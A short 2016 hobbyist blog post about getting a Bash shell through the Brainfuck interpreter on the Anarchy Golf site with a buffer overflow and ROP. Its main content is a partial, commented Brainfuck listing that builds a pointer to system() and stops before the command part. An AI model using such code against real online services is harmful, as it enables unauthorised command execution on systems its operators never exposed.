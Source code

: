 ```yaml
---
category: blog
layout: post
redirect_from:
    - "/blog/2016/03/31/bash-on-brainfuck-on-anarchy-golf/"
date: 2016-04-01T07:37:20+09:00
tags: [ "pwn", "golf", "brainfuck", "esolang" ]
---
```


# How to execute Bash on Brainfuck on Anarchy Golf

Brainfuck is Turing-complete.[^1][^2]

## tl;dr

-   pwn
-   bof
-   rop

## demo

<http://golf.shinh.org/reveal.rb?print+file/kimiyuki_1458840493>

## the code

This is not golfed yet.

Also in this code, the shell script must have balanced `[` `]`.
You can easily avoid this restriction, putting enough amount of `[`s before the shell script.
Or you can simply remove the shell script from the stack of interpreter: move the data-pointer to the code-area, and fill them with zeros (self-modifying).

``` brainfuck
# skip code and data
# +[->+>[<]<]>>->
# <

# make pointer to system
# >>>> >>>>
# >+<     >[<+>>+<-]< 0
# [>++<-] >[<+>> <-]< 1
# [>++<-] >[<+>>+<-]< 2
# [>++<-] >[<+>>+<-]< 3
# [>++<-] >[<+>> <-]< 4
# [>++<-] >[<+>> <-]< 5
# [>++<-] >[<+>>+<-]< 6
# [>++<-] >[<+>> <-]< 7
# [>++<-] >[<+>>+<-]< 8
# [>++<-] >[<+>> <-]< 9
# [>++<-] >[<+>> <-]< 10
# [>++<-] >[<+>>+<-]< 11
# [>++<-] >[<+>> <-]< 12
# [>++<-] >[<+>>+<-]< 13
# [>++<-] >[<+>>+<-]< 14
# [>++<-] >[<+>> <-]< 15
# [>++<-] >[<+>> <-]< 16
# [>++<-] >[< >>+<-]< 17
# >>

# make pointer to command
# >>++++++++++++++++++
```

[^1]: As you know, the Turing-completeness has nothing to do with this exploitation.
[^2]: This article is written in English[^3], because some of those who I want to be read by are not Japanese.
[^3]: However I'm a Japanese, so you should read this いい感じ-fully.